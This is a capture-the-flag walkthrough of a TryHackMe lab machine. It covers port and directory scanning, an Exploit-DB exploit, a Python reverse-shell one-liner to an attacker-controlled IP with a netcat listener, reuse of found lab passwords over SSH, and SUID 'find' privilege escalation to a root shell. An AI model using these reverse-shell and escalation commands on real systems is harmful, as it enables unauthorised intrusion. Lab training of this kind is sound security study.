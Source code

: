 # Boiler CTF

**Room Link:** [https://tryhackme.com/room/boilerctf2](https://tryhackme.com/room/boilerctf2)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (19) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/21 - HTTP

**Kali**

```
ftp $VICTIM
ls -lah 
get .info.txt
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://$VICTIM/joomla -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Initial Shell**

**Exploit:** [https://www.exploit-db.com/exploits/47204](https://www.exploit-db.com/exploits/47204)

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1337
```

**Browser command**

```
export RHOST="10.10.157.229";export RPORT=1337;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

There is a file that has credentials

<figure><img src="../../.gitbook/assets/image (19) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

It was also possible to view from the browser

<figure><img src="../../.gitbook/assets/image (18) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/55007 - SSH

**Kali**

```
ssh basterd@$VICTIM -p 55007
Pass: superduperp@$$
```

<figure><img src="../../.gitbook/assets/image (20) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



There is a backup.sh script that is owned by user stoner, which has his credentials.

<figure><img src="../../.gitbook/assets/image (21) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh stoner@$VICTIM -p 55007                                            
Pass: superduperp@$$no1knows 
```

<figure><img src="../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**

We can exploit SUID for the find command

**Exploit:** [https://gtfobins.github.io/gtfobins/find/](https://gtfobins.github.io/gtfobins/find/)

**Victim**

```
find / -perm -u=s -type f 2> /dev/null 
```

<figure><img src="../../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

Had to specify the full path, it doesn't work if you don't

**Victim**

```
/usr/bin/find . -exec /bin/sh -p \; -quit
```

<figure><img src="../../.gitbook/assets/image (24) (1).png" alt=""><figcaption></figcaption></figure>
